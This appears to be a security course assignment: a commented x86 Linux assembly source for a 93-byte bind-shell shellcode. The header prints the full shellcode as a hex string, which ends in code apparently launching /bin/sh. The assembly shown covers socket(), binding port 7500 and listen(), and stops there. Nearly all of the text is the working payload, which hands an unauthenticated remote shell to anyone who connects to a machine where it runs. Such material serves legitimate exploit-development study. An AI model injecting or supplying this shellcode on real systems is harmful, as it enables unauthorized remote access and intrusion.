     
    ;Description:	Assignment #1 (Shell_Bind_TCP, 93 bytes)
    ;Shellcode:		\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x52\x66\x68\x1d\x4c\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\xb0\x66\x43\x52\x52\x56\x89\xe1\xcd\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80
    ;Author: 		Paolo Stivanin <https://github.com/polslinux>
    ;SLAE ID:		526
    
    global _start
    section .text
    _start:
    	;socket(): sys_socketcall(int call, unsigned long *args)
    	;eax -> sys_socketcall
    	;ebx -> SYS_{SOCKET(1),BIND(2),CONNECT(3),LISTEN(4),ACCEPT(5) /usr/include/linux/net.h}
    	;ecx -> args(AF_INET{/usr/include/bits/socket.h -> 2}, SOCK_STREAM{/usr/include/bits/socket_type.h -> 1}, 0)
    	xor edx,edx
    	xor ebx,ebx
    	push BYTE 0x66 	;sys_socketcall
    	pop eax
    	inc ebx			;SYS_SOCKET
    	push edx		;0
    	push BYTE 1 	;SOCK_STREAM
    	push BYTE 2		;AF_INET
    	mov ecx,esp
    	int 0x80
    	xchg esi,eax
    
    	;bind(): sys_socketcall(int call, unsigned long *args)
    	;eax -> sys_socketcall
    	;ebx -> SYS_BIND
    	;ecx -> args(sockfd{esi}, {sa_family{2},sin_port{7500},sin_addr{0.0.0.0}}, socklen_t addrlen{16 bytes})
    	mov BYTE al,0x66
    	inc ebx			;SYS_BIND
    	push edx
    	push WORD 0x4C1D; por 7500
    	push bx
    	mov ecx,esp
    	push BYTE 16
    	push ecx
    	push esi
    	mov ecx,esp
    	int 0x80
    
    	;listen(): sys_socketcall(int call, unsigned long *args)
    	;eax -> sys_socketcall
    	;ebx -> SYS_LISTEN
    	;ecx -> args(sockfd, backlog)
    	mov BYTE al,0x66
    	inc ebx
    	inc ebx			;SYS_LISTEN
    	push BYTE 1
    	push esi
    	mov ecx,esp
    	int 0x80
    
